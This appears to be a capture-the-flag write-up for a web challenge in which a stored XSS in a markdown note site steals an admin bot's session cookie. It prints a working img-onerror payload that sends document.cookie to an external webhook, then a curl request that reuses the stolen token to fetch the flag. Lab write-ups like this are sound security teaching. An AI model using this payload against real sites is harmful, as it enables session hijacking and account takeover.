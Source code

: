 The admin bot provided takes a url as input and visits it. By modifying the XSS payload to force the brwoser to fetch `document.cookie` and send it to a webhook that I set up, I was able to get the token. 

I made a post with this specific text content: 

```javascript
<img src=x onerror="fetch('https://webhook.site/410fec2e-da06-4914-96be-866915b53dc5' + '?' + document.cookie)">
```

This actually made my browser send my cookie to the webhook I set up, which proved the XSS worked. From here, I simply provided the link to the admin bot, and it visited the note. As soon as it did, the admin's browser sent its cookie to my webhook.

![Markdown](/assets/MarkDownXSSProof.jpg)

This is very cool because we are not necessarily getting the server to send us resources through misconfiguration (like what we saw in a couple of last weeks challenges), and we aren't executing code in the backend to gain information or get access to files. By simply providing input that isn't sanitized, the front end is what executes our code, making XSS a very unique and powerful vulnerability. 

Anyways, with the token, I made this cURL request: `curl https://markdown.web.actf.co/flag -H 'cookie: token=d15453b0234690ccbb91861e'`
and got the flag: `actf{b534186fa8b28780b1fcd1e95e2a2e2c}`.

This is the first XSS challenge of the blog, and I am still very inexperienced with it. That being said, it is a quite expansive vulnerability and one of the most common. I hope to do more of these that cover harder concepts like CSP bypasses or even client side template injections.
